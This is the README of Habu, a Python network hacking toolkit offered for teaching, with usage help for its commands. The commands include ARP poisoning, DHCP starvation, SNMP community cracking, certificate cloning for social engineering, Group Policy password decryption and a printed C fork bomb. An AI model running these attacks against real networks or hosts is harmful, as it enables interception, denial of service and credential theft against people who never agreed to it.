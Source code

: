 Habu Hacking Toolkit
====================

I'm developing Habu to teach (and learn) some concepts about Python and
Network Hacking.

Some techniques implemented in the current version are:

* ARP Poisoning
* ARP Sniffing
* DHCP Discover
* DHCP Starvation
* Fake FTP Server
* LAND Attack
* SNMP Cracking
* Subdomains Identification
* SSL/TLS Certificate Cloner
* SYN Flooding
* TCP Flags Analysis
* TCP ISN Analysis
* TCP Port Scan
* Username check on social networks
* Virtual Hosts Identification
* Web Techonologies Identification

The development of this software is supported by Securetia SRL (https://www.securetia.com/)

Usage Videos
------------

The following Youtube Playlist has videos that shows the installation
and usage:

https://www.youtube.com/watch?v=rgp9seLLyqE&list=PL4HZnX8VnFXqSvNw7x-bXOn0dgxNdfnVD

Telegram Group
--------------

If you want to discuss some Habu features, possible improvements, etc,
you can use the Habu Telegram Group: https://t.me/python_habu

Issues and pull requests must be sent to github repo:
https://github.com/fportantier/habu

Installation
------------

**Python Package (PyPi):**

Habu is on PyPi, so you can install it directly with pip:

::

    $ pip3 install habu


**Microsoft Windows**:

Install with the pip method.

Get Help
--------

All the commands implement the option '--help', that shows the help,
arguments, options, and default values.

Verbose Mode
------------

Almost all commands implement the verbose mode with the '-v' option.
This can give you some extra info about what habu is doing.

Commands Index
--------------

* `arp.ping <#habuarpping>`_
* `arp.poison <#habuarppoison>`_
* `arp.sniff <#habuarpsniff>`_
* `asydns <#habuasydns>`_
* `b64 <#habub64>`_
* `cert.clone <#habucertclone>`_
* `cert.names <#habucertnames>`_
* `config.del <#habuconfigdel>`_
* `config.set <#habuconfigset>`_
* `config.show <#habuconfigshow>`_
* `contest <#habucontest>`_
* `crack.luhn <#habucrackluhn>`_
* `crack.snmp <#habucracksnmp>`_
* `crtsh <#habucrtsh>`_
* `crypto.fernet <#habucryptofernet>`_
* `crypto.fernet.genkey <#habucryptofernetgenkey>`_
* `crypto.gppref <#habucryptogppref>`_
* `crypto.hasher <#habucryptohasher>`_
* `crypto.xor <#habucryptoxor>`_
* `data.enrich <#habudataenrich>`_
* `data.extract.domain <#habudataextractdomain>`_
* `data.extract.email <#habudataextractemail>`_
* `data.extract.fqdn <#habudataextractfqdn>`_
* `data.extract.ipv4 <#habudataextractipv4>`_
* `data.filter <#habudatafilter>`_
* `data.select <#habudataselect>`_
* `dhcp.discover <#habudhcpdiscover>`_
* `dhcp.starvation <#habudhcpstarvation>`_
* `dns.lookup.forward <#habudnslookupforward>`_
* `dns.lookup.reverse <#habudnslookupreverse>`_
* `eicar <#habueicar>`_
* `forkbomb <#habuforkbomb>`_
* `fqdn.finder <#habufqdnfinder>`_
* `gateway.find <#habugatewayfind>`_
* `host <#habuhost>`_
* `http.headers <#habuhttpheaders>`_
* `http.options <#habuhttpoptions>`_
* `http.tech <#habuhttptech>`_
* `interfaces <#habuinterfaces>`_
* `ip <#habuip>`_
* `ip2asn <#habuip2asn>`_
* `ip.geolocation <#habuipgeolocation>`_
* `ip.internal <#habuipinternal>`_
* `isn <#habuisn>`_
* `jshell <#habujshell>`_
* `karma <#habukarma>`_
* `karma.bulk <#habukarmabulk>`_
* `land <#habuland>`_
* `nc <#habunc>`_
* `nmap.excluded <#habunmapexcluded>`_
* `nmap.open <#habunmapopen>`_
* `nmap.ports <#habunmapports>`_
* `ping <#habuping>`_
* `protoscan <#habuprotoscan>`_
* `server.ftp <#habuserverftp>`_
* `shodan <#habushodan>`_
* `shodan.query <#habushodanquery>`_
* `synflood <#habusynflood>`_
* `tcpflags <#habutcpflags>`_
* `tcpscan <#habutcpscan>`_
* `traceroute <#habutraceroute>`_
* `usercheck <#habuusercheck>`_
* `version <#habuversion>`_
* `vhosts <#habuvhosts>`_
* `virustotal <#habuvirustotal>`_
* `web.report <#habuwebreport>`_
* `web.screenshot <#habuwebscreenshot>`_
* `whois.domain <#habuwhoisdomain>`_
* `whois.ip <#habuwhoisip>`_

habu.arp.ping
-------------

.. code-block::

    Usage: habu.arp.ping [OPTIONS] IP
    
      Send ARP packets to check if a host it's alive in the local network.
    
      Example:
    
      # habu.arp.ping 192.168.0.1
      Ether / ARP is at a4:08:f5:19:17:a4 says 192.168.0.1 / Padding
    
    Options:
      -i TEXT  Interface to use
      -v       Verbose output
      --help   Show this message and exit.
    

habu.arp.poison
---------------

.. code-block::

    Usage: habu.arp.poison [OPTIONS] VICTIM1 VICTIM2
    
      Send ARP 'is-at' packets to each victim, poisoning their ARP tables for
      send the traffic to your system.
    
      Note: If you want a full working Man In The Middle attack, you need to
      enable the packet forwarding on your operating system to act like a
      router. You can do that using:
    
      # echo 1 > /proc/sys/net/ipv4/ip_forward
    
      Example:
    
      # habu.arpoison 192.168.0.1 192.168.0.77
      Ether / ARP is at f4:96:34:e5:ae:1b says 192.168.0.77
      Ether / ARP is at f4:96:34:e5:ae:1b says 192.168.0.70
      Ether / ARP is at f4:96:34:e5:ae:1b says 192.168.0.77
      ...
    
    Options:
      -i TEXT  Interface to use
      -v       Verbose
      --help   Show this message and exit.
    

habu.arp.sniff
--------------

.. code-block::

    Usage: habu.arp.sniff [OPTIONS]
    
      Listen for ARP packets and show information for each device.
    
      Columns: Seconds from last packet | IP | MAC | Vendor
    
      Example:
    
      1   192.168.0.1     a4:08:f5:19:17:a4   Sagemcom Broadband SAS
      7   192.168.0.2     64:bc:0c:33:e5:57   LG Electronics (Mobile Communications)
      2   192.168.0.5     00:c2:c6:30:2c:58   Intel Corporate
      6   192.168.0.7     54:f2:01:db:35:58   Samsung Electronics Co.,Ltd
    
    Options:
      -i TEXT  Interface to use
      --help   Show this message and exit.
    

habu.asydns
-----------

.. code-block::

    Usage: habu.asydns [OPTIONS]
    
      Requests a DNS domain name based on public and private RSA keys using the
      AsyDNS protocol https://github.com/portantier/asydns
    
      Example:
    
      $ habu.asydns -v
      Generating RSA key ...
      Loading RSA key ...
      {
          "ip": "181.31.41.231",
          "name": "07286e90fd6e7e6be61d6a7919967c7cf3bbfb23a36edbc72b6d7c53.a.asydns.org"
      }
    
      $ dig +short 07286e90fd6e7e6be61d6a7919967c7cf3bbfb23a36edbc72b6d7c53.a.asydns.org
      181.31.41.231
    
    Options:
      -u TEXT  API URL
      -g       Force the generation of a new key pair
      -r       Revoke the public key
      -v       Verbose output
      --help   Show this message and exit.
    

habu.b64
--------

.. code-block::

    Usage: habu.b64 [OPTIONS] [F]
    
      Encodes or decode data in base64, just like the command base64.
    
      $ echo awesome | habu.b64
      YXdlc29tZQo=
    
      $ echo YXdlc29tZQo= | habu.b64 -d
      awesome
    
    Options:
      -d      decode instead of encode
      --help  Show this message and exit.
    

habu.cert.clone
---------------

.. code-block::

    Usage: habu.cert.clone [OPTIONS] HOSTNAME PORT KEYFILE CERTFILE
    
      Connect to an SSL/TLS server, get the certificate and generate a
      certificate with the same options and field values.
    
      Note: The generated certificate is invalid, but can be used for social
      engineering attacks
    
      Example:
    
      $ habu.certclone www.google.com 443 /tmp/key.pem /tmp/cert.pem
    
    Options:
      --copy-extensions  Copy certificate extensions (default: False)
      --expired          Generate an expired certificate (default: False)
      -v                 Verbose
      --help             Show this message and exit.
    

habu.cert.names
---------------

.. code-block::

    Usage: habu.cert.names [OPTIONS] [NETWORK]
    
      Connects to each host/port and shows a summary of the certificate names.
    
      The hosts to connect to are taken from two possible options:
    
      1. "-i" option (stdin by default). A file where each line is a host or
      network 2. An argument that can be a host or network
    
      If you use both methods, the hosts and networks are merged into one list.
    
      Example:
    
      $ habu.cert.names 2.18.60.240/29
      2.18.60.241         443 i.s-microsoft.com microsoft.com privacy.microsoft.com
      2.18.60.242         443 aod-ssl.itunes.apple.com aod.itunes.apple.com aodp-ssl.itunes.apple.com
      2.18.60.243         443 *.mlb.com mlb.com
      2.18.60.244         443 [SSL: TLSV1_ALERT_INTERNAL_ERROR] tlsv1 alert internal error (_ssl.c:1056)
      2.18.60.245         443 cert2-cn-public-ubiservices.ubi.com cert2-cn-public-ws-ubiservices.ubi.com
      2.18.60.246         443 *.blog.sina.com.cn *.dmp.sina.cn
    
      aod.itunes.apple.com
      aodp-ssl.itunes.apple.com
      aod-ssl.itunes.apple.com
      *.blog.sina.com.cn
      cert2-cn-public-ubiservices.ubi.com
      cert2-cn-public-ws-ubiservices.ubi.com
      *.dmp.sina.cn
      i.s-microsoft.com microsoft.com
      *.mlb.com mlb.com
      privacy.microsoft.com
    
    Options:
      -p TEXT      Ports to connect to (comma separated list)
      -i FILENAME  Input file (Default: stdin)
      -t FLOAT     Time to wait for each connection
      -v           Verbose output
      --help       Show this message and exit.
    

habu.config.del
---------------

.. code-block::

    Usage: habu.config.del [OPTIONS] KEY
    
      Delete a KEY from the configuration.
    
      Note: By default, KEY is converted to uppercase.
    
      Example:
    
      $ habu.config.del DNS_SERVER
    
    Options:
      --help  Show this message and exit.
    

habu.config.set
---------------

.. code-block::

    Usage: habu.config.set [OPTIONS] KEY VALUE
    
      Set VALUE to the config KEY.
    
      Note: By default, KEY is converted to uppercase.
    
      Example:
    
      $ habu.config.set DNS_SERVER 8.8.8.8
    
    Options:
      --help  Show this message and exit.
    

habu.config.show
----------------

.. code-block::

    Usage: habu.config.show [OPTIONS]
    
      Show the current config.
    
      Note: By default, the options with 'KEY' in their name are shadowed.
    
      Example:
    
      $ habu.config.show
      {
          "DNS_SERVER": "8.8.8.8",
          "FERNET_KEY": "*************"
      }
    
    Options:
      -k, --show-keys   Show also the key values
      --option TEXT...  Write to the config(KEY VALUE)
      --help            Show this message and exit.
    

habu.contest
------------

.. code-block::

    Usage: habu.contest [OPTIONS]
    
      Try to connect to various services and check if can reach them using your
      internet connection.
    
      Example:
    
      $ habu.contest
      IP:    True
      DNS:   True
      FTP:   True
      SSH:   True
      HTTP:  True
      HTTPS: True
    
    Options:
      --help  Show this message and exit.
    

habu.crack.luhn
---------------

.. code-block::

    Usage: habu.crack.luhn [OPTIONS] NUMBER
    
      Having known values for a Luhn validated number, obtain the possible
      unknown numbers.
    
      Numbers that use the Luhn algorithm for validation are Credit Cards, IMEI,
      National Provider Identifier in the United States, Canadian Social
      Insurance Numbers, Israel ID Numbers and Greek Social Security Numbers
      (ΑΜΚΑ).
    
      The '-' characters are ignored.
    
      Define the missing numbers with the 'x' character.
    
      Reference: https://en.wikipedia.org/wiki/Luhn_algorithm
    
      Example:
    
      $ habu.crack.luhn 4509-xxxx-3160-6445
    
    Options:
      --help  Show this message and exit.
    

habu.crack.snmp
---------------

.. code-block::

    Usage: habu.crack.snmp [OPTIONS] IP
    
      Launches snmp-get queries against an IP, and tells you when finds a valid
      community string (is a simple SNMP cracker).
    
      The dictionary used is the distributed with the onesixtyone tool
      https://github.com/trailofbits/onesixtyone
    
      Example:
    
      # habu.crack.snmp 179.125.234.210
      Community found: private
      Community found: public
    
      Note: You can also receive messages like \<UNIVERSAL\> \<class
      'scapy.asn1.asn1.ASN1\_Class\_metaclass'\>, I don't know how to supress
      them for now.
    
    Options:
      -p INTEGER  Port to use
      -c TEXT     Community (default: list of most used)
      -s          Stop after first match
      -v          Verbose
      --help      Show this message and exit.
    

habu.crtsh
----------

.. code-block::

    Usage: habu.crtsh [OPTIONS] DOMAIN
    
      Downloads the certificate transparency logs for a domain and check with
      DNS queries if each subdomain exists.
    
      Uses multithreading to improve the performance of the DNS queries.
    
      Example:
    
      $ sudo habu.crtsh securetia.com
      [
          "karma.securetia.com.",
          "www.securetia.com."
      ]
    
    Options:
      -c      Disable cache
      -n      Disable DNS subdomain validation
      -v      Verbose output
      --help  Show this message and exit.
    

habu.crypto.fernet
------------------

.. code-block::

    Usage: habu.crypto.fernet [OPTIONS]
    
      Fernet cipher.
    
      Uses AES-128-CBC with HMAC
    
      Note: You must use a key to cipher with Fernet.
    
      Use the -k paramenter or set the FERNET_KEY configuration value.
    
      The keys can be generated with the command habu.crypto.fernet.genkey
    
      Reference: https://github.com/fernet/spec/blob/master/Spec.md
    
      Example:
    
      $ "I want to protect this string" | habu.crypto.fernet
      gAAAAABbXnCGoCULLuVNRElYTbEcwnek9iq5jBKq9JAN3wiiBUzPqpUgV5oWvnC6xfIA...
    
      $ echo gAAAAABbXnCGoCULLuVNRElYTbEcwnek9iq5jBKq9JAN3wiiBUzPqpUgV5oWvnC6xfIA... | habu.crypto.fernet -d
      I want to protect this string
    
    Options:
      -k TEXT        Key
      -d             Decrypt instead of encrypt
      --ttl INTEGER  Time To Live for timestamp verification
      -i FILENAME    Input file (default: stdin)
      -o FILENAME    Output file (default: stdout)
      --help         Show this message and exit.
    

habu.crypto.fernet.genkey
-------------------------

.. code-block::

    Usage: habu.crypto.fernet.genkey [OPTIONS]
    
      Generate a new Fernet Key, optionally write it to ~/.habu.json
    
      Example:
    
      $ habu.crypto.fernet.genkey
      xgvWCIvjwe9Uq7NBvwO796iI4dsGD623QOT9GWqnuhg=
    
    Options:
      -w      Write this key to ~/.habu.json
      --help  Show this message and exit.
    

habu.crypto.gppref
------------------

.. code-block::

    Usage: habu.crypto.gppref [OPTIONS] PASSWORD
    
      Decrypt the password of local users added via Windows 2008 Group Policy
      Preferences.
    
      This value is the 'cpassword' attribute embedded in the Groups.xml file,
      stored in the domain controller's Sysvol share.
    
      Example:
    
      # habu.crypto.gppref AzVJmXh/J9KrU5n0czX1uBPLSUjzFE8j7dOltPD8tLk
      testpassword
    
    Options:
      --help  Show this message and exit.
    

habu.crypto.hasher
------------------

.. code-block::

    Usage: habu.crypto.hasher [OPTIONS] [F]
    
      Compute various hashes for the input data, that can be a file or a stream.
    
      Example:
    
      $ habu.crypto.hasher README.rst
      md5          992a833cd162047daaa6a236b8ac15ae README.rst
      ripemd160    0566f9141e65e57cae93e0e3b70d1d8c2ccb0623 README.rst
      sha1         d7dbfd2c5e2828eb22f776550c826e4166526253 README.rst
      sha256       6bb22d927e1b6307ced616821a1877b6cc35e... README.rst
      sha512       8743f3eb12a11cf3edcc16e400fb14d599b4a... README.rst
      whirlpool    96bcc083242e796992c0f3462f330811f9e8c... README.rst
    
      You can also specify which algorithm to use. In such case, the output is
      only the value of the calculated hash:
    
      $ habu.hasher -a md5 README.rst
      992a833cd162047daaa6a236b8ac15ae README.rst
    
    Options:
      -a [md5|sha1|sha256|sha512|ripemd160|whirlpool]
                                      Only this algorithm (Default: all)
      --help                          Show this message and exit.
    

habu.crypto.xor
---------------

.. code-block::

    Usage: habu.crypto.xor [OPTIONS]
    
      XOR cipher.
    
      Note: XOR is not a 'secure cipher'. If you need strong crypto you must use
      algorithms like AES. You can use habu.fernet for that.
    
      Example:
    
      $ habu.xor -k mysecretkey -i /bin/ls > xored
      $ habu.xor -k mysecretkey -i xored > uxored
      $ sha1sum /bin/ls uxored
      $ 6fcf930fcee1395a1c95f87dd38413e02deff4bb  /bin/ls
      $ 6fcf930fcee1395a1c95f87dd38413e02deff4bb  uxored
    
    Options:
      -k TEXT      Encryption key
      -i FILENAME  Input file (default: stdin)
      -o FILENAME  Output file (default: stdout)
      --help       Show this message and exit.
    

habu.data.enrich
----------------

.. code-block::

    Usage: habu.data.enrich [OPTIONS]
    
      Enrich data adding interesting information.
    
      Example:
    
      $ cat /var/log/auth.log | habu.data.extract.ipv4 | habu.data.enrich
      [
          {
              "asset": "8.8.8.8",
              "family": "IPAddress",
              "asn": "15169",
              "net": "8.8.8.0/24",
              "cc": "US",
              "rir": "ARIN",
              "asname": "GOOGLE - Google LLC, US"
          },
          {
              "asset": "8.8.4.4",
              "family": "IPAddress",
              "asn": "15169",
              "net": "8.8.4.0/24",
              "cc": "US",
              "rir": "ARIN",
              "asname": "GOOGLE - Google LLC, US"
          }
      ]
    
    Options:
      -i FILENAME  Input file (Default: stdin)
      -v           Verbose output
      --help       Show this message and exit.
    

habu.data.extract.domain
------------------------

.. code-block::

    Usage: habu.data.extract.domain [OPTIONS] [INFILE]
    
      Extract valid domains from a file or stdin.
    
      Optionally, check each domain for the presence of NS registers.
    
      Example:
    
      $ cat /var/log/some.log | habu.data.extract.domain -c
      google.com
      ibm.com
      redhat.com
    
    Options:
      -c      Check if domain has NS servers defined
      -v      Verbose output
      -j      JSON output
      --help  Show this message and exit.
    

habu.data.extract.email
-----------------------

.. code-block::

    Usage: habu.data.extract.email [OPTIONS] [INFILE]
    
      Extract email addresses from a file or stdin.
    
      Example:
    
      $ cat /var/log/auth.log | habu.data.extract.email
      john@securetia.com
      raven@acmecorp.net
      nmarks@fimax.com
    
    Options:
      -v      Verbose output
      -j      JSON output
      --help  Show this message and exit.
    

habu.data.extract.fqdn
----------------------

.. code-block::

    Usage: habu.data.extract.fqdn [OPTIONS] [INFILE]
    
      Extract FQDNs (Fully Qualified Domain Names) from a file or stdin.
    
      Example:
    
      $ cat /var/log/some.log | habu.data.extract.fqdn
      www.google.com
      ibm.com
      fileserver.redhat.com
    
    Options:
      -c      Check if hostname resolves
      -v      Verbose output
      -j      JSON output
      --help  Show this message and exit.
    

habu.data.extract.ipv4
----------------------

.. code-block::

    Usage: habu.data.extract.ipv4 [OPTIONS] [INFILE]
    
      Extract IPv4 addresses from a file or stdin.
    
      Example:
    
      $ cat /var/log/auth.log | habu.data.extract.ipv4
      172.217.162.4
      23.52.213.96
      190.210.43.70
    
    Options:
      -j, --json    JSON output
      -u, --unique  Remove duplicates
      -v            Verbose output
      --help        Show this message and exit.
    

habu.data.filter
----------------

.. code-block::

    Usage: habu.data.filter [OPTIONS] FIELD [gt|lt|eq|ne|ge|le|in|contains|defin
                              ed|undefined|true|false] [VALUE]
    
      Filter data based on operators.
    
      Example:
    
      $ cat /var/log/auth.log | habu.data.extract.ipv4 | habu.data.enrich | habu.data.filter cc eq US
      [
          {
              "item": "8.8.8.8",
              "family": "ipv4_address",
              "asn": "15169",
              "net": "8.8.8.0/24",
              "cc": "US",
              "rir": "ARIN",
              "asname": "GOOGLE - Google LLC, US"
          }
      ]
    
    Options:
      -i FILENAME  Input file (Default: stdin)
      -v           Verbose output
      --not        Negate the comparison
      --help       Show this message and exit.
    

habu.data.select
----------------

.. code-block::

    Usage: habu.data.select [OPTIONS] FIELD
    
      Select a field from a JSON input.
    
      Example:
    
      $ cat /var/log/auth.log | habu.data.extract.ipv4 | habu.data.enrich | habu.data.filter cc eq US | habu.data.select asset
      8.8.8.7
      8.8.8.8
      8.8.8.9
    
    Options:
      -i FILENAME  Input file (Default: stdin)
      -v           Verbose output
      --json       JSON output
      --help       Show this message and exit.
    

habu.dhcp.discover
------------------

.. code-block::

    Usage: habu.dhcp.discover [OPTIONS]
    
      Send a DHCP request and show what devices has replied.
    
      Note: Using '-v' you can see all the options (like DNS servers) included
      on the responses.
    
      # habu.dhcp_discover
      Ether / IP / UDP 192.168.0.1:bootps > 192.168.0.5:bootpc / BOOTP / DHCP
    
    Options:
      -i TEXT     Interface to use
      -t INTEGER  Time (seconds) to wait for responses
      -v          Verbose output
      --help      Show this message and exit.
    

habu.dhcp.starvation
--------------------

.. code-block::

    Usage: habu.dhcp.starvation [OPTIONS]
    
      Send multiple DHCP requests from forged MAC addresses to fill the DHCP
      server leases.
    
      When all the available network addresses are assigned, the DHCP server
      don't send responses.
    
      So, some attacks, like DHCP spoofing, can be made.
    
      # habu.dhcp_starvation
      Ether / IP / UDP 192.168.0.1:bootps > 192.168.0.6:bootpc / BOOTP / DHCP
      Ether / IP / UDP 192.168.0.1:bootps > 192.168.0.7:bootpc / BOOTP / DHCP
      Ether / IP / UDP 192.168.0.1:bootps > 192.168.0.8:bootpc / BOOTP / DHCP
    
    Options:
      -i TEXT     Interface to use
      -t INTEGER  Time (seconds) to wait for responses
      -s INTEGER  Time (seconds) between requests
      -v          Verbose output
      --help      Show this message and exit.
    

habu.dns.lookup.forward
-----------------------

.. code-block::

    Usage: habu.dns.lookup.forward [OPTIONS] HOSTNAME
    
      Perform a forward lookup of a given hostname.
    
      Example:
    
      $ habu.dns.lookup.forward google.com
      {
          "ipv4": "172.217.168.46",
          "ipv6": "2a00:1450:400a:802::200e"
      }
    
    Options:
      -v      Verbose output
      --help  Show this message and exit.
    

habu.dns.lookup.reverse
-----------------------

.. code-block::

    Usage: habu.dns.lookup.reverse [OPTIONS] IP_ADDRESS
    
      Perform a reverse lookup of a given IP address.
    
      Example:
    
      $ $ habu.dns.lookup.reverse 8.8.8.8
      {
          "hostname": "google-public-dns-a.google.com"
      }
    
    Options:
      -v      Verbose output
      --help  Show this message and exit.
    

habu.eicar
----------

.. code-block::

    Usage: habu.eicar [OPTIONS]
    
      Print the EICAR test string that can be used to test antimalware engines.
    
      More info: http://www.eicar.org/86-0-Intended-use.html
    
      Example:
    
      $ habu.eicar
      X5O!P%@AP[4\XZP54(P^)7CC)7}$EICAR-STANDARD-ANTIVIRUS-TEST-FILE!$H+H*
    
    Options:
      --help  Show this message and exit.
    

habu.forkbomb
-------------

.. code-block::

    Usage: habu.forkbomb [OPTIONS] [bash|batch|c|haskell|perl|php|python|ruby]
    
      A shortcut to remember how to use fork bombs in different languages.
    
      Currently supported: bash, batch, c, haskell, perl, php, python, ruby.
    
      Example:
    
      $ habu.forkbomb c
      #include <unistd.h>
      int main()
      {
          while(1)
          {
              fork();
          }
          return 0;
      }
    
    Options:
      --help  Show this message and exit.
    

habu.fqdn.finder
----------------

.. code-block::

    Usage: habu.fqdn.finder [OPTIONS] [DOMAINS]...
    
      Uses various techniques to obtain valid FQDNs for the specified domains.
    
      1. Try to all FQDNs with DNS zone transfers
      2. Check for Certificate Transparency Logs
      3. Connect to specified ports, obtain SSL certificates and get FQDNs from them
      4. Connect to websites and get FQDNs based on the website links
      5. DNS Brute Force for common names
    
      The results are cleaned to remove FQDNs that does not resolve by DNS
    
      Example:
    
      $ habu.fqdn.finder educacionit.com
      barometrosalarial.educacionit.com
      blog.educacionit.com
      ci.educacionit.com
      educacionit.com
      intranet.educacionit.com
      lecdev.educacionit.com
      lecweb.educacionit.com
      mail.educacionit.com
      plantillas.educacionit.com
      www.educacionit.com
    
    Options:
      -t FLOAT                  Time to wait for each connection
      -v                        Verbose output
      --debug                   Debug output
      --connect / --no-connect  Get from known FQDNs open ports SSL certificates
      --brute / --no-brute      Run DNS brute force against domains
      --links / --no-links      Extract FQDNs from web site links
      --xfr / --no-xfr          Try to do a DNS zone transfer against domains
      --ctlog / --no-ctlog      Try to get FQDNs from Certificate Transparency
                                Logs
    
      --json                    Print the output in JSON format
      --help                    Show this message and exit.
    

habu.gateway.find
-----------------

.. code-block::

    Usage: habu.gateway.find [OPTIONS] NETWORK
    
      Try to reach an external IP using any host has a router.
    
      Useful to find routers in your network.
    
      First, uses arping to detect alive hosts and obtain MAC addresses.
    
      Later, create a network packet and put each MAC address as destination.
    
      Last, print the devices that forwarded correctly the packets.
    
      Example:
    
      # habu.find.gateway 192.168.0.0/24
      192.168.0.1 a4:08:f5:19:17:a4 Sagemcom
      192.168.0.7 b0:98:2b:5d:22:70 Sagemcom
      192.168.0.8 b0:98:2b:5d:1f:e8 Sagemcom
    
    Options:
      -i TEXT                Interface to use
      --host TEXT            Host to reach (default: 8.8.8.8)
      --tcp                  Use TCP instead of ICMP
      --dport INTEGER RANGE  Destination port for TCP (default: 80)
      --timeout INTEGER      Timeout in seconds (default: 5)
      -v                     Verbose output
      --help                 Show this message and exit.
    

habu.host
---------

.. code-block::

    Usage: habu.host [OPTIONS]
    
      Collect information about the host where habu is running.
    
      Example:
    
      $ habu.host
      {
          "kernel": [
              "Linux",
              "demo123",
              "5.0.6-200.fc29.x86_64",
              "#1 SMP Wed Apr 3 15:09:51 UTC 2019",
              "x86_64",
              "x86_64"
          ],
          "distribution": [
              "Fedora",
              "29",
              "Twenty Nine"
          ],
          "libc": [
              "glibc",
              "2.2.5"
          ],
          "arch": "x86_64",
          "python_version": "3.7.3",
          "os_name": "Linux",
          "cpu": "x86_64",
          "static_hostname": "demo123",
          "fqdn": "demo123.lab.sierra"
      }
    
    Options:
      -v      Verbose output.
      --help  Show this message and exit.
    

habu.http.headers
-----------------

.. code-block::

    Usage: habu.http.headers [OPTIONS] SERVER
    
      Retrieve the HTTP headers of a web server.
    
      Example:
    
      $ habu.http.headers http://duckduckgo.com
      {
          "Server": "nginx",
          "Date": "Sun, 14 Apr 2019 00:00:55 GMT",
          "Content-Type": "text/html",
          "Content-Length": "178",
          "Connection": "keep-alive",
          "Location": "https://duckduckgo.com/",
          "X-Frame-Options": "SAMEORIGIN",
          "Content-Security-Policy": "default-src https: blob: data: 'unsafe-inline' 'unsafe-eval'",
          "X-XSS-Protection": "1;mode=block",
          "X-Content-Type-Options": "nosniff",
          "Referrer-Policy": "origin",
          "Expect-CT": "max-age=0",
          "Expires": "Mon, 13 Apr 2020 00:00:55 GMT",
          "Cache-Control": "max-age=31536000"
      }
    
    Options:
      -v      Verbose output
      --help  Show this message and exit.
    

habu.http.options
-----------------

.. code-block::

    Usage: habu.http.options [OPTIONS] SERVER
    
      Retrieve the available HTTP methods of a web server.
    
      Example:
    
      $ habu.http.options -v http://google.com
      {
          "allowed": "GET, HEAD"
      }
    
    Options:
      -v      Verbose output
      --help  Show this message and exit.
    

habu.http.tech
--------------

.. code-block::

    Usage: habu.http.tech [OPTIONS] URL
    
      Uses Wappalyzer apps.json database to identify technologies used on a web
      application.
    
      Reference: https://github.com/AliasIO/Wappalyzer
    
      Note: This tool only sends one request. So, it's stealth and not
      suspicious.
    
      $ habu.web.tech https://woocomerce.com
      Google Tag Manager       unknown
      MySQL                    unknown
      Nginx                    unknown
      PHP                      unknown
      Prototype                unknown
      RequireJS                unknown
      WooCommerce              3.8.0
      WordPress                5.2.4
      Yoast SEO                10.0.1
    
    Options:
      --cache / --no-cache
      --format [txt|csv|json]  Output format
      -v                       Verbose output
      --help                   Show this message and exit.
    

habu.interfaces
---------------

.. code-block::

    Usage: habu.interfaces [OPTIONS]
    
      Show the network interfaces available on the system.
    
      Example:
    
      # habu.interfaces
      #  NAME                            MAC                INET             INET6
      0  eth0                            80:fa:5b:4b:f9:18  None             None
      1  lo                              00:00:00:00:00:00  127.0.0.1        ::1
      2  wlan0                           f4:96:34:e5:ae:1b  192.168.0.6      None
      3  vboxnet0                        0a:00:27:00:00:00  192.168.56.1     fe80::800:27ff:fe00:0
    
    Options:
      -j      Output in JSON format
      --help  Show this message and exit.
    

habu.ip
-------

